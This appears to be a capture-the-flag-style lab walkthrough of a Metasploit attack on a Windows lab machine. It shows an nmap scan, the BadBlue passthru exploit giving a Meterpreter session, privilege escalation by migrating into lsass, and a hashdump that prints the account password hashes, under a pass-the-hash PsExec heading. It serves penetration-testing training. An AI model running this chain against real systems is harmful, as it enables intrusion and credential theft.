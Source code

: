 ```bash
db_status
setg RHOSTS 10.2.28.123
setg RHOST 10.2.28.123
workspace -a PsExec
db_nmap -sV 10.2.28.123
```

```bash
80/tcp   open  http          BadBlue httpd 2.7
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

### Exploitation

```bash
use exploit/windows/http/badblue_passthru
set TARGET BadBlue\ EE\ 2.7\ Universal
run
```

```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: ATTACKDEFENSE\Administrator
```

### Privilege Escalation

```bash
pgrep lsass
migrate 780
getuid
	Server username: NT AUTHORITY\SYSTEM
```

### [Pass-the-hash - PSExec](https://www.offsec.com/metasploit-unleashed/psexec-pass-hash/)

```bash
hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
```
